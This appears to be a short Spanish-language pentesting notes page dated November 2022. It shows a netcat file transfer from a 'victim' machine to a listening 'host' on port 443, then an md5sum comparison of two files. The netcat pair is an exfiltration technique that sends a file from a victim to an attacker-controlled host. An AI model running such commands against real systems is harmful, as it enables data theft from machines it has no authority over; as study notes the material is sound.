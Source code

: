 -----
<br>
<p><font color="yellow">[<font color="red">*</font>]</font><font color="lime">dom 27 nov 2022</font></p>
<p><center><font color="green">Netcat Load File-Transfer </font></center></p>

<p>--> Maquina <font color="yellow">victima: </font></p>

```bash
	nc 192.168.0.4 443 < loadFile.txt
```

<br>
<p><-- Maquina <font color="red">host:</font></p>

```bash
	nc -nlvp 443 > loadFile.txt
```

<br>
* <p>Maquina <font color="yellow">Victima</font> tramita el envio de un archivo en este caso <font color="blue"> loadFile.txt</font>, y maquina <font color="red">host</font> recibe el archivo.</p>
<p><font color="yellow">---></font> Modo de envio <font color="orange">Tcp</font></p>

-------

<p><center><font color="green">md5sum Comparator Hashed File</font></center></p>
<br>
* <p>Comparador de archivos <font color="orange">mkv,txt,pdf,docx</font> etc.</p>

```bash
md5sum NameFile1 NameFile2
```
* <p> resultado</p>
<img src="screenshots/Diario/md5sum.png">
* <p>Como tienen el mismo contenido el hash es igual.</p>








